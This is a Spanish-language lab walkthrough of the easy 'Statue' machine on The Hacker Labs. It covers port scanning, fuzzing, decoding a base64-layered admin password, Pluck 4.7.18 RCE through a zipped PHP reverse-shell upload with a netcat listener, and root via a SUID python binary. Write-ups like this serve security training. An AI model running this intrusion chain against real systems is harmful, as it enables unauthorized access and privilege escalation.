 # Statue - The Hacker Labs (Fácil)

Statue es una máquina Linux de la plataforma The Hacker Labs, de dificultad fácil.

- [Reconocimiento](#reconocimiento)
- [Enumeración](#enumeración)
- [Explotación](#explotación)
- [Post-Explotación](#post-explotación)
- [Elevación de privilegios](#elevación-de-privilegios)

## Reconocimiento

Lo primero que hice fue un escaner dentro del rango de IPs de mi interfaz de red para descubrir cual es la IP de la máquina. Después del escaner veo que la IP es la `10.0.2.12` y le hago ping para comprobar la conectividad, y viendo que la ttl es 64 me aseguro de que es una máquina Linux.

```
sudo arp-scan -I enp0s3 -l
ping 10.0.2.12
```

![host discovery](captura_2025-05-21_18-32-01.png)

Despúes hago un escaner de puertos con Nmap para ver que puertos hay abiertos.
Utilizo:
- **-p-** Para hacer el escaner a los 65535 puertos
- **-vvv** Para ir viendo en tiempo real el momento en el que descubre un puerto abierto
- **--open** Para solo buscar puertos abiertos
- **-sS** Para que en el protocolo tcp solo haga el SYN Connect sin esperar respuesta ACK, por lo que agiliza el escaner
- **-Pn** Para no hacer ping a la máquina ya que ya sabemos que hay conectividad.
- **-T5** Para aumentar la velocidad del escaner al máximo.
- **-n** Para desactivar la resolución DNS.

`sudo nmap -p- -vvv --open -sS -Pn -T5 -n 10.0.2.12 -oN open-ports`

Termina el escaner y vemos que solo están abiertos los puertos 22 y 80.

![puertos](captura_2025-05-21_18-33-20.png)

## Enumeración

Hacemos un escaner con Nmap Para analizar los sercicios que corren en los puertos 22 y 80.
Ultilizamos el argumento **-sVC** para que resuelva las versiones y lanze scripts comunes que analizen los servicios.

`nmap -p 22,80 -sVC -Pn -n 10.0.2.12 -oN scan`

Podemos ver que en el puerto 22 corre un OpenSSH 9.6p1 y el en puerto 80 un Apache httpd 2.4.58.

![servicios](captura_2025-05-21_18-34-22.png)

Si accedemos a la página podemos ver un directory listing vacío.

![página](captura_2025-05-21_18-38-53.png)

Siendo usuario root metemos el dominio `statue.thl` en `/etc/hosts`

```
sudo su
echo '10.10.11.12    statue.thl' >> /etc/hosts
```

Ahora si entramos con este dominio nos redirige a la página http://statue.thl/?file=rodgar

![statue.thl](captura_2025-05-21_18-44-52.png)

Viendo que la página tiene un parametro **file** que carga un archivo probé a cargar el `/etc/passwd` sin exito.

![intento de LFI](captura_2025-05-21_18-46-09.png)

Tambien podemos ver esta página de login por lo que de alguna forma necesitamos la contraseña.

![login](captura_2025-05-21_19-26-11.png)

Hice fuzzing con `ffuf` para ver que directorios y archivos hay en la página. Buscando archivos .txt, .md y .php

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .php,.txt,.md -u http://statue.thl/FUZZ
```

Después del escaner se pueden ver varios archivos y directorios, pero el importante es el **`README.md`**.

![fuzzing](captura_2025-05-21_19-36-41.png)

Entrando en el `README.md` vemos un texto bastante grande, en base64.

![README.md](captura_2025-05-21_19-37-11.png)

Guardamos este texto en un archivo.

![](captura_2025-05-21_19-38-32.png)

Después de decodificarlo varias veces podemos ver que el texto era "**fideicomiso**" codificado muchas veces en base64.

```
cat encoded | base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d| base64 -d
```

![password](captura_2025-05-21_19-49-30.png)

Si lo pegamos como contraseña en el login conseguimos acceso.

![admin.php](captura_2025-05-21_19-50-46.png)

## Explotación

Despues de haber conseguido acceso necesitaba buscar vulnerabilidades. Ejecutando el comando `whatweb` podemos ver que la version del pluck es la 4.7.18.

![whatweb](captura_2025-05-21_18-47-57.png)

Buscando un poco, esta pagina de github encontré un script para explotar un RCE en un servicio pluck con esa misma versión

https://github.com/Rai2en/CVE-2023-50564_Pluck-v4.7.18_PoC

Viendo un poco el código, basicamente lo que hay que hacer es subir un archivo zip a http://statue.thl/admin.php?action=installmodule con un script en php para ganar una shell reversa.

En esta página de github me descargue el script de pentestmonkey/php-reverse-shell que es bastante efectivo:
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Dentro del script cambio la IP por mi IP y pongo el puerto 4444.

![rev-shell.php](captura_2025-05-21_20-07-48.png)

Guardo el Script en un ZIP.

`zip shell.zip php-reverse-shell.php`

Subí el ZIP a:
http://statue.thl/admin.php?action=installmodule

![installmodule](captura_2025-05-21_20-13-12.png)

Puse en escucha el puerto 4444 con netcat.

`nc -lvnp 4444`

En otra terminal llamé a al script con curl, aunque también se puede hacer en el navegador.

`curl 'http://statue.thl/data/modules/shell/php-reverse-shell.php'`

Y consigo acceso a la máquina.

![nc](captura_2025-05-21_20-16-44.png)

## Post-Explotación

Para estabilizar la shell ejecuté los siguientes comandos:

```
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Podemos ver que soy el usuario `www-data` y que hay dos usuarios en la máquina, "charles" y "juan"

![](captura_2025-05-21_20-22-05.png)

Dentro de `/var/www` una carpeta `Charles-Wheatstone` la cual contiene un archivo `pass.txt`. El archivo contiene tanto una Pass encriptada y una Key codificada en base64.

![pass.txt](captura_2025-05-21_20-23-23.png)

Al decodificar varias veces la key vemos que inicialmente era "guardar".

```
echo 'Vm0xd1MyUXhVWGhYV0d4VFlUSm9WbGx0ZUV0V01XeHpXa2M1YWxadFVuaFZNVkpUVlVaYVZrNVlWbFpTYkVZelZUTmtkbEJSYnowSwo=' > key
cat key | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
```

![key](captura_2025-05-21_20-25-16.png)

Viendo la Pass y la key no he sido capaz de determinar que tipo de encriptación era. 

![](captura_2025-05-21_20-33-32.png)

![john](captura_2025-05-21_20-33-39.png)

## Elevación de privilegios

Buscando otras alternativas de escalar privilegios he hecho una busqueda de archivos con permiso SUID y he encontrado que el binario `/usr/bin/python3.12` tien permisos SUID y ademas pertenece al usuario root. Por lo que si conseguimos una shell com python podriamos tener permisos root.

`find / -perm /4000 2>/dev/null`

![find](captura_2025-05-21_20-35-10.png)

Ejecutamos este comando para obtener una shell con python.

`/usr/bin/python3.12 -c 'import os; os.execl("/bin/bash", "bash", "-p")'`

Y vemos que ya somos root y podemos leer el `root.txt`.

![root.txt](captura_2025-05-21_20-37-04.png)

Tambien podemos leer el `user.txt` dentro de `/home/juan`.

![user.txt](captura_2025-05-21_20-38-35.png)
